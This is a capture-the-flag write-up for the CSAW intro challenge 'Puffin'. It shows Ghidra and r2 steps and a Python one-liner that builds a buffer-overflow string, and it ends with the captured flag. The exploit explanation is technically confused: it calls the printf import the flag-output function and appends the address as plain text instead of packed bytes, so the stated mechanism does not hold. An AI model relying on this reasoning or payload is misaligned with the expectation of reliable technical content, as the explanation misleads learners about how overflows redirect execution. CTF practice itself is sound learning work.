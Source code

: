 # Puffin
## Category: Intro
## Author: ElykDeer

# Description

>Huff, puff, and blow that buffer over.

# Ressources

We are provided with two files, puffin, and readme.txt. We also have netcat connection credentials to get the flag.

# Solution

The readme.txt file gives us an idea what we are working with. Stacks, addresses, values being saved... Sounds like a buffer overflow.

### Step one: Get the buffer size and the flag-output-function address

We can use ghidra to decompile the puffin file. If we look around in the decompiled script, we can see that the designated buffer size for the variable is 44 characters

>char local_38 [44];

Now to find out the address, we can use a dissassembler/ debugger. I will use r2.

>r2 puffin
>[#########]> aaaaaa
>[#########]> afl

Output:

>0x000006d0    1 6            sym.imp.printf

### Overflooding the buffer

Now that we have all the information we need, we can start:

>python3
> >>> "a"*44 + "b"*8 + "0x000006d0"

>'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbb0x000006d0'

If we input that ouput as our input when connecting to the server, we get the flag.

# Flag

>csawctf{m4ybe_i_sh0u1dve_co113c73d_mor3_rock5_7o_impr355_her....}

